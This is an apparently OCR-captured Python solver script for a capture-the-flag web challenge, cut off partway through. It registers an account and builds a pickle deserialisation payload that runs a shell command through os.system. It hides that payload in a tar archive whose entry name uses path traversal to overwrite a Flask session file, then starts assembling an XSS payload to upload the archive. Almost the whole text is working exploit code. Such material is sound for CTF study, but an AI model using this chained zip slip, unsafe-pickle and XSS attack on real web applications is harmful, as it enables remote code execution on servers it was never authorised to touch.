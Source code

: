 ```python
#!/usr/bin/env python3
import sys, requests, base64, time, tarfile, io, os, pickle, hashlib, struct

hostURL = 'http://127.0.0.1:1337'               # Challenge host URL
userName = f'rh0x01'                            # new username
userPwd = f'rh0x01'                             # new password

def register():
    jData = { 'username': userName, 'password': userPwd }
    req_stat = requests.post(f'{hostURL}/api/register', json=jData).status_code
    if not req_stat == 200:
        print("Something went wrong! Is the challenge host live?")
        sys.exit()

def login():
    jData = { 'username': userName, 'password': userPwd }
    authCookie = requests.post(f'{hostURL}/api/login', json=jData).cookies.get('session')
    if not authCookie:
        print("Something went wrong while logging in!")
        sys.exit()
    return authCookie

def prepare_zipslip(filename):
    class RCE:
        def __reduce__(self):
            cmd = ('/readflag > /app/application/static/flag.txt')
            return os.system, (cmd,)
    pickle_time = struct.pack("I", 0000)
    pickled_payload = pickle_time + pickle.dumps(RCE())

    zipslip = io.BytesIO()
    tar = tarfile.open(fileobj=zipslip, mode='w:gz')
    info = tarfile.TarInfo(f'../../../../../app/flask_session/{filename}')
    info.mtime = time.time()
    info.size = len(pickled_payload)
    tar.addfile(info, io.BytesIO(pickled_payload))
    tar.close()

    return base64.b64encode(zipslip.getvalue()).decode()

print('[+] Signing up a new account..')
register()

print('[~] Logging in to acquire session cookie..')
cookie = login()

print('[+] Preparing zipslip payload file with matching cookie sid..')
sid = 'rayhan0x01'
filename = hashlib.md5(sid.encode()).hexdigest()
b64_file = prepare_zipslip(filename)

print('[+] Preparing the XSS payload to upload the zipslip..')
xss_payload = """
<script>
const b64Data="%s"
const byteCharacters = atob(b64Data);
const byteArrays = [];
const sliceSize=512;
const contentType='multipart/form-data';
for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
const slice = byteCharacters.slice(offset, offset + sliceSize);

const byteNumbers = new Array(slice.length);
```